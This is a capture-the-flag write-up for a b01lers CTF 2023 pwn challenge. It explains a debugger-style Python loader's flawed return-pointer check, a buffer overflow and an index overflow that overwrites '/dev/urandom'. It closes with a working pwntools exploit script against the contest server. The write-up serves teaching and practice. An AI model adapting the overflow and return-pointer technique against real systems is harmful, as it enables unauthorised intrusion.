




# Description

A tiny program, protected by some Python code. The flag is in: ./flag.txt

[files](https://github.com/b01lers/b01lers-ctf-2023-public/tree/main/pwn/cfifufuuufuuuuu)

# Analysis

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


## loader

my analysis database [s.bndb](./s.bndb)

This binary is run by a python loaders. python loader is acting like a debugger.

Everytime a breakpoint instruction (`0xcc`) being executed. python loader will check next byte after rip. And determine what to do next depend on that byte.

for example, if next byte is `0x48`. it will replace some register



otherwise, if the next byte is equal to some other bytes. it will do a canary check manually



## vulnerability 1 - canary check failed

it did have canary check. The canary values are actually saved return pointers. However, when comparing return pointers, it only check if return pointer exists in the stack. So, we can still modify the saved return pointer to the caller's saved return pointer.

## vulnerability 2 - overwriting

Bascially, the binary contains 2 main function. `encrypt` and `decrypt`

`decrypt` function calls a function which read all bytes until it meet a new line character (`\n`). This is a trivial buffer overflow we can use to modify return pointer.

using this vulnerability with the previous one, we can run `main` function again.

since `_start` function is essentially a loop if return value of `main` is not equal to 1



## vulnerability 3 - random generation

encrypt function generating random values by reading `/dev/urandom`. And store using input is .bss section.

it also use a global variable to record index of the data array. everytime we call `encrypt`, the index will increase by one.



normally it's okay, because we are only executing `encrypt` function once.

however, since we can run `encrypt` function multiple time. we increase the index value until we overwrite `/dev/urandom` string.


## conclusion

we overwrite `/dev/urandom`, and the program will print out the flag for us!


# Exploit

```
from pwn import *

exe = ELF("s")
# exe_rop = ROP(exe)
# libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def wait(*msg):
    if args.WAIT:
        input(" ".join(map(str,msg)))

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print
def start():
    if args.LOCAL:
        r = process(["python","./loader.py"])
        r.recvuntil(b"pid=")
        pid = int(r.recvuntil(b";\n",drop=True))
        print("pid of the binary is %d" % pid)
        if args.R2:
            util.proc.wait_for_debugger(pid)
    else:
        r = remote("ctf.b01lers.com", 5215)
    return r


io = start()
flagstring = b"flag.txt".ljust(0x10,b"\x00")
nonesense = b'\x00'*0x10
payload = flat({
    0x0: b'\x00'*0x10, # make all 0, easier for xor
    0x38:[
        0x00004005e2, # _start if eax=1, call main again 
    ]
})+b'\n'
# filled up data
for i in range(8):
    io.sendafter(b"Your data to encrypt?:\n",flagstring)
    io.sendafter(b"Your data to decrypt?:\n",nonesense)
    io.sendafter(b"Your key?:\n",payload)
# overflow /dev/urandom
io.sendafter(b"Your data to encrypt?:\n",flagstring)
io.recvuntil(b"Your key:\n")
lp("flag: ", io.recvuntil(b"\n",drop=True))
io.close()
```
